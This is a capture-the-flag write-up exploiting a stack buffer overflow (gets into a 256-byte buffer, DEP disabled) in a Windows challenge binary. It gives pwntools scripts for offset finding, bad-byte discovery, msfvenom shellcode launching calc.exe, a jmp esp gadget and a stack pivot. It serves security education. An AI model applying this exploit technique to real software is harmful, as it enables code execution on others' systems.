

# Challenge Description

Author: violenttestpen

Difficulty: Easy

Innovation is a way of life at GovTech. We think big, start small, and learn from failing fast. We have programmes to empower our GovTechies spark collaboration and drive innovative projects for public good. Our Agile, Bold, and Collaborative values unite us from different teams in delivering the business outcomes in a growth-oriented workplace. They drive what we build for our citizens, businesses, and public officers.

Don't miss this **window** of opportunity to check out our information helpdesk service and find out more!

[window_of_opportunity](window_of_opportunity.exe)


# Understanding the Program

So we are given a windows program. Cursed windows pwn... Let's run through it


As you can see, on running the program, we are presented with a menu. Running through all the options, we note that options 1-4 simply print out information on various GOVTECH opportunities.

Option 5 gives us an input to supposedly provide some feedback. Considering this is windows PWN and categorized under easy, theres probably a buffer overflow here. Let's check it out!

We will first decompile our executable in IDA.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int8 v3; // al
  int v5[2]; // [esp+0h] [ebp-8h] BYREF

  SetProcessDEPPolicy(0); // <----- (1)
  sub_401000();
  do
  {
    sub_401050();
    sub_401340(aWhichProgramme, v5[0]);
    sub_401380("%d", v5);
    v3 = (unsigned __int8)__acrt_iob_func(0);
    sub_40324F(v3);
    v5[1] = v5[0] - 1;
    switch ( v5[0] )
    {
      case 1:
        sub_4010B0();
        break;
      case 2:
        sub_4010F0();
        break;
      case 3:
        sub_401130();
        break;
      case 4:
        sub_401170();
        break;
      case 5:
        break;
      default:
        sub_401340("Error %d: Invalid choice.\n", 58623);
        break;
    }
  }
  while ( v5[0] != 5 );
  sub_403403();
  sub_4034C2(aBeforeYouGoFee);
  sub_4011B0(); // <----- (2)
  sub_4034C2(aThankYouForThe);
  sub_4034C2(aGoodBye);
  return 0;
}
```

At **(1)**, we notice that DEP aka NX is disabled, which means that our stack is executable.

We will streamline to `sub_4011B0()` at **(2)** which seems to be the function taking in our input.

Decompiling the function, we get:

```c
int sub_4011B0()
{
  char v1[256]; // [esp+0h] [ebp-100h] BYREF

  return gets(v1);
}
```

BINGO! That's our buffer overflow right there.

# The cursed windows setup

Before we get into exploiting the binary, let's checkout our windows pwn setup.

So I'm pretty much using Ubuntu [WSL 2](https://docs.microsoft.com/en-us/windows/wsl/install) to run my program.

Usually if you are scripting an exploit for window programs, people will ask you to use [pwintool](https://github.com/masthoon/pwintools), however as cursed as it is, I am just gonna be using PwnTools because it works:


Not only that, as cursed as it is, GDB does work... (wtf?)


However I won't be using GDB for this exploit simply because GDB is not built to debug windows program and although it does work, many other things are breaking behind the scenes. Hence I'll use my handy WinDBG for this writeup.

So I'll work with WSL2 + PwnTools + WinDBG for my environment, scripting and debugging respectively.

# Exploiting the program

### CRASHING OUR PROGRAM

We have identified our buffer overflow and also noted that DEP is disabled.

Our first objective will be to take control of our program by gaining EIP control. We will have to find the offset from our vulnerable input to our return address.

We can do this by sending in a [de-bruijin/cyclic](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence and let the program crash, then identify the offset to our return address.

This script generates a cyclic sequence of 300 characters and send it to the vulnerable input.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = cyclic(300)

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

We will pause prior to sending our vulnerable payload so we can attach our WinDBG and identify the place that the program crashes.

If we let our windbg run by sending the `g` command a few times (and unpause our script), we see that our program crashes at a arbitrary location.


Our program crashes at `0x63616170` which is part of the 300 character cyclic sequence we sent.

If we search up this unique sequence of bytes in our cyclic structure,

  

we see that the offset to our return address is actually 260.

Just to verify, we will try to send another payload to our program

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b"A"*260 + b"BBBB"

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

If we run this script and run `go` in windbg,


We see that we crash at 0x42424242 which is BBBB in ascii. Bingo!

### STRATEGIZING OUR PAYLOAD

Now that we know the number of bytes required for us to reach the return address, we can actually start with the actual exploit.

Since DEP is disabled, this means that our stack is actually executable and we can simply run a shellcode to run any arbitrary command.

For simplicity, we will aim to pop a calculator on our computer. Before we generate our payload with msfvenom, we have to identify the bad bytes in our input _(bytes that will terminate our input and cause our exploit to fail)_.

### IDENTIFYING OUR BAD bytes

In order to do this, we will write a script to send a payload with all the bytes from 0x00 to 0xff and then examine the buffer in WinDBG to see which bytes cause our payload to get cut off.

The script:

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b""

for i in range(256):
    payload += i.to_bytes(1, 'little')

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

If we look at our program in IDA, we find the `gets` call at address `004011C0`.


We will run the script, attach our WinDBG, break at the `gets` call and examine the buffer after the gets call.

Running the script, we see our buffer


In the buffer, we can identify bytes from `00` `01` `02` `03` up till `09` and then `0a` is missing.

This means that `0a` is a bad byte.

We can modify the script and run it again to identify other possible bad bytes.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b""

for i in range(256):
    if i in [0xa]:
        continue
    payload += i.to_bytes(1, 'little')

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```


This time we notice that the payload gets cut off and byte `0x1a` is missing.

Hence byte `\x1a` is the next bad byte.

If we keep repeating the process, we identify that the only bad bytes are `\x0a` and `\x1a`.

### GENERATING OUR SHELLCODE

Now that we have our bad bytes, we can generate our shellcode with msfvenom.

```sh
msfvenom -p windows/exec cmd=calc.exe -b '\x0a\x1a' > shellcode
```


### CRAFTING OUR EXPLOIT

In order to execute our shellcode, we have to jump to our shellcode. We can do this with a **jmp esp** gadget.

We can find this gadget with ROPgadget.


Now we can craft our exploit to place our shellcode on the stack.

By right our payload would look like this:

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = open('/root/shellcode', 'rb').read()

payload = b'A'*260
payload += p32(JMP_ESP)
payload += shellcode

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```

### DEALING WITH THE PROBLEMS

However this exploit script will not work yet.

#### Problem 1

This is because msfvenom generates an encoded shellcode that will need to push and pop values on the stack to decode itself.

If we are using a **jmp esp** gadget this means that our **esp** and **eip** will be next to each other.

The pushing and popping of data from the stack will result in our shellcode being overwritten and cause it to fail.

This means that we actually have to modify our **esp** before actually running the shellcode.

We could simply add a `sub esp, 20` prior to running our shellcode to pop a calculator.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = asm("sub esp, 20") + open('/root/shellcode', 'rb').read()

payload = b'A'*260
payload += p32(JMP_ESP)
payload += shellcode

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```

#### Problem 2

However if you run the current exploit, you will find that it still does not work and that the program jumps somewhere else midway through the shellcode.

This is due to the **Structure Exception Handler** security in windows. It works like a canary to a small extent, such that if we send an input too big, we will overwrite the handler and trigger the SEH security causing our program to crash even before we finish running our shellcode.

This means that we will have to find somewhere else to write our payload. If we recall, our shellcode is roughly 220 bytes long and our buffer is 260 bytes long. This means that we can actually write our shellcode in our buffer and pivot our stack to return there.

Let's rewrite our payload again.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = asm("sub esp, 20") + open('/root/shellcode', 'rb').read()
shellcode2 = asm("""
sub esp, 264
jmp esp
""")

payload = shellcode + b"A"*(260-len(shellcode))
payload += p32(JMP_ESP)
payload += shellcode2

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```


And voila! We got our calculator >:)


# Food For Thought

Other interesting stuff you could try out with this exploit:

- rewrite the exploit script in GO
- solve the challenge with a SEH buffer overflow this time :D

_credits to violenttestpen for the challenge and for helping me debug the exploit_
